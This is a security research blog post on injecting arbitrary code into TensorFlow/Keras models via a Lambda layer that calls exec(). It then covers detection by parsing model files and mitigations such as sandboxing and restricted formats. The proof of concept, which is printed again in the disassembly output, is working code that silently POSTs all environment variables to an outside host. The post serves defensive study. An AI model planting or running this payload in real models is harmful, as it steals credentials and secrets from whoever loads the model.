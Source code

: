 # TensorFlow ML model exploitation via arbitrary code injection

> In this blog, we detail our research on how an adversary can inject arbitrary code into TensorFlow ML models.
>
> **Call to Action**: Though we are yet to observe this exploit in the wild, we recommend investigating the detection and mitigation strategies outlined here as part of best practices for AI engineering.  

The advent of Artificial Intelligence (AI) systems is bringing along new security challenges. Some are brand new, like [adversarial Machine Learning](https://docs.microsoft.com/en-us/security/engineering/failure-modes-in-machine-learning) (ML) attacks against algorithms and data. Others are new twists on old-fashioned attack patterns. For instance, it does not come as a surprise that loading a PyPI Python package results in arbitrary-code execution. After all, this is exactly what package managers are designed to do. However, it may not be as obvious that the same may happen when loading ML models.

ML models may be perceived as [pure functions](https://en.wikipedia.org/wiki/Pure_function): they take an input, return an output, and have no side effects. The model file formats are more flexible than that though and it is worth understanding their actual capabilities.

Let’s consider [PyTorch](https://pytorch.org/) and [TensorFlow](https://www.tensorflow.org/), two of the most popular ML frameworks. PyTorch [relies](https://pytorch.org/docs/stable/notes/serialization.html) on the Python [pickle](https://docs.python.org/3/library/pickle.html) library for serialization, which brings in all the security warnings mentioned in its documentation. The TensorFlow [security documentation](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) also makes it clear that TensorFlow model files are designed to store generic programs. What may be less clear with TensorFlow is how far attackers could take this since pickle is not used. In this blog, we will show how malware can be created using TensorFlow, how to detect such malware, and how to mitigate the threat.

# Proof of Concept

The [ctx PyPI malware](https://github.com/advisories/GHSA-4g82-3jcr-q52w) is a good source of inspiration: this simple-yet-effective attack lists environment variables and exfiltrates them, along with any secrets they contain, via HTTPS requests. In less hardened services, it is likely that HTTPS outbound calls to the internet are unblocked as this is typically needed to emit service telemetry.

In TensorFlow, the [Keras Lambda layer](https://www.tensorflow.org/api_docs/python/tf/keras/layers/Lambda) offers a convenient way to run arbitrary expressions which may not have equivalent built-in operators. One would typically use that layer to write mathematical expressions to transform data, but nothing prevents some creativity here, including calling the Python built-in [exec()](https://docs.python.org/3/library/functions.html#exec) function. We would like the malware to remain stealthy, so the goal is to inject a layer which acts as data pass-through while performing the attack as side effect. The exec() function always returns None, so combining it with Python’s or operator can return the input as-is. Putting all this together allows us to sneak in a malicious layer into an existing model. For the sake of simplicity, we pick an identity model as victim model.
```python
from tensorflow import keras

attack = lambda x: exec("""
import http.client
import json
import os
conn = http.client.HTTPSConnection("contoso.com")
conn.request("POST", f"/{os.getlogin()}", json.dumps(dict(os.environ)), {"Content-Type": "application/json"})
print(f"Environment-variable exfiltration status: {conn.getresponse().status}")
""") or x

inputs = keras.Input(shape=(5,))
outputs = keras.layers.Lambda(attack)(inputs)
model = keras.Model(inputs, outputs)
model.compile(optimizer="adam", loss="mean_squared_error")

model.save("model_malicious")

```
When TensorFlow saves the model into a file, it serializes the Keras Lambda layers as Python bytecode using the [marshal](https://docs.python.org/3/library/marshal.html) library. This makes the attack in the model file self-contained: it does not require loading extra custom code prior to loading the model itself. As a quick test, we can load the model and run a prediction to verify that the model performs both its intended purpose (prediction) and its malicious purpose (secret exfiltration):
```python
import numpy as np

model = keras.models.load_model("model_malicious")
data = np.random.random((1, 5))
print(model.predict(data).squeeze())

```
```python
Environment-variable exfiltration status: 200
Environment-variable exfiltration status: 200
1/1 [==============================] - 1s 541ms/step
[0.37531313 0.2846103 0.09445234 0.3578478 0.22238933]
```

# Detection

TensorFlow model files come in a few different [formats](https://www.tensorflow.org/guide/keras/save_and_serialize): the current default format called SavedModel relies on [protobuf](https://en.wikipedia.org/wiki/Protocol_Buffers), the older Keras format is based on [HDF5](https://www.hdfgroup.org/solutions/hdf5), and a generic JSON format is also available. Model files may contain either the model architecture, the model weights, or both. For malware detection, the model architecture is of most interest as this is where the attack lives.
Starting with models in SavedModel format, the Python bytecode can by extracted by deserializing the protobuf stream and extracting Keras Lambda nodes from the model graph.
```python
import json
from tensorflow.python.keras.protobuf.saved_metadata_pb2 import SavedMetadata

saved_metadata = SavedMetadata()
with open("model_malicious/keras_metadata.pb", "rb") as f:
    saved_metadata.ParseFromString(f.read())

lambda_code = [layer["config"]["function"]["items"][0]
    for layer in [json.loads(node.metadata)
        for node in saved_metadata.nodes
        if node.identifier == "_tf_keras_layer"]
    if layer["class_name"] == "Lambda"]

```
This returns an array of bytecodes:
```python
['4wEAAAAAAAAAAAAAAAEAAAACAAAAQwAAAHMMAAAAdABk…JuZWxfMjUxMDgvMjIxOTgxNDQyOC5wedoIPGxhbWJkYT4DAAAAcwQA\nAAAIAAQH\n]
```
Keras Lambda layers are not typical and primarily aimed at quick experimentation, so the fact that the array was not empty is by itself a sign of suspicious activity. We can go one step further though and [dis](https://docs.python.org/3/library/dis.html)assemble the bytecode using the dis library to better understand what it does:
```python
import codecs
import marshal
import dis

dis.dis(marshal.loads(codecs.decode(lambda_code[0].encode('ascii'), 'base64')))
```
```python
3   0  LOAD_GLOBAL 0 (exec)
    2  LOAD_CONST 1 ('\nimport http.client\nimport json\nimport os\nconn = http.client.HTTPSConnection("contoso.com")\nconn.request("POST", f"/{os.getlogin()}", json.dumps(dict(os.environ)), {"Content-Type": "application/json"})\nprint(f"Environment-variable exfiltration status: {conn.getresponse().status}")\n')
    4  CALL_FUNCTION 1
    6  JUMP_IF_TRUE_OR_POP 5 (to 10)
10  8  LOAD_FAST 0 (x)
    10 RETURN_VALUE

```
It becomes clear that the bytecode calls the exec() function with a malicious string. More advanced attackers could employ code obfuscation here to make this analysis more difficult.
Analyzing attacks in HDF5 and JSON model files follows a similar approach as with SavedModel. To open HDF5 files we can rely on the [h5py](https://docs.h5py.org/) package:
```python
import h5py

with h5py.File("model_malicious.h5", "r") as model_hdf5:
    lambda_code = [layer["config"]["function"][0]
        for layer in json.loads(model_hdf5.attrs["model_config"])["config"]["layers"]
        if layer["class_name"] == "Lambda"]

```
To open JSON model files, the built-in JSON library is sufficient:
```python
import json

with open("model_malicious.json", "rt") as f:
    lambda_code = [layer["config"]["function"][0]
        for layer in json.load(f)["config"]["layers"]
        if layer["class_name"] == "Lambda"]
```

# Mitigation

The AI field is catching up on secure-development best practices, which is starting to enable inventory, tracking, reporting, and take down of malware models. The AI equivalent of package repositories like PyPI are model repositories like [MLflow](https://mlflow.org/), which on Azure are available through [Azure ML](https://azure.microsoft.com/en-us/products/machine-learning/) and [Azure Databricks](https://azure.microsoft.com/en-us/products/databricks/), or [Hugging Face](https://huggingface.co/). Model repositories bring features like model versioning with unique immutable identifiers, anti-tampering through model hash pinning, trust validation through code signing, and generic malware scanning. Combined with [Software Bills of Materials](https://devblogs.microsoft.com/engineering-at-microsoft/generating-software-bills-of-materials-sboms-with-spdx-at-microsoft/) (SBOMs), this has the potential to expedite the detection and removal of malware of all kinds.

Another mitigation approach consists in limiting what models are allowed to do, to contain and disrupt potential malware:
- Some model formats are more restrictive than others, like [ONNX](https://onnx.ai/) or [TFlite](https://www.tensorflow.org/lite/) for instance (when avoiding custom operators).
- Model files may be limited to model weights, with model architectures coming from more trusted sources. The TensorFlow models of Hugging Face follow this approach (when avoiding custom models).
- The compute hosts running the models can enforce sandboxing, through containerization and machine virtualization for instance. On top of this, workload isolation may be strengthened by following best practices like avoiding using the root user, dropping capabilities, upgrading images with vulnerabilities, etc.
- The networks around the models can limit connectivity, for instance by attaching containers to [internal networks](https://docs.docker.com/engine/reference/commandline/network_create/#network-internal-mode) without outbound and/or internet connectivity, enforcing [Network Security Groups](https://learn.microsoft.com/en-us/azure/virtual-network/network-security-groups-overview) on Azure virtual networks, or implementing firewalls. This can be particularly effective if the models are self-contained and do not have dependencies beyond what is made available through their container images.

# References

A few pointers to probe further:
- [Machine Learning Attack Series: Backdooring Pickle Files](https://embracethered.com/blog/posts/2022/machine-learning-attack-series-injecting-code-pickle-files/), Johann Rehberger, 2022
- [Hugging Face Pickle Scanning](https://huggingface.co/docs/hub/security-pickle), Luc Georges, 2022
- [The hidden dangers of loading open-source AI models (ARBITRARY CODE EXPLOIT!](https://www.youtube.com/watch?v=2ethDz9KnLk), Yannic Kilcher, 2022
- [Data Scientists go to Jupyter](https://github.com/moohax/Charcuterie/blob/main/LABSCon.pdf), Will Pearce, 2022
- [Secure Machine Learning at Scale with MLSecOps](https://github.com/EthicalML/fml-security#2---load-pickle-and-inject-malicious-code), Alejandro Saucedo, 2022
- [Backdooring Pickles: A decade only made things worse](https://coldwaterq.com/presentations/ColdwaterQ%20-%20BACKDOORING%20Pickles%20A%20decade%20only%20made%20things%20worse%20-%20v1.pdf), ColdwaterQ, DEFCON 2022
- [Never a dill moment: Exploiting machine learning pickle files](https://blog.trailofbits.com/2021/03/15/never-a-dill-moment-exploiting-machine-learning-pickle-files/), Evan Sultanik, 2021
- [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/), David Hamann, 2020
- [Security Risks in Deep Learning Implementations](https://ieeexplore.ieee.org/document/8424643), Qixue Xiao, Kang Li, Deyue Zhang, Weilin Xu, 2018
- [Dangerous Pickles - malicious python serialization](https://intoli.com/blog/dangerous-pickles/), Evan Sangaline, 2017
- [Python Pickle Security Problems and Solutions](https://www.smartfile.com/blog/python-pickle-security-problems-and-solutions/), Travis Cunningham, 2015
- [Arbitrary code execution with Python pickles](https://checkoway.net/musings/pickle/), Stephen Checkoway, 2013
- [Sour Pickles, A serialised exploitation guide in one part](https://www.youtube.com/watch?v=HsZWFMKsM08), Marco Slaviero, BlackHat USA 2011 (see also: [doc](https://sensepost.com/cms/resources/conferences/2011/sour_pickles/BH_US_11_Slaviero_Sour_Pickles.pdf), [slides](https://www.slideshare.net/sensepost/sour-pickles))
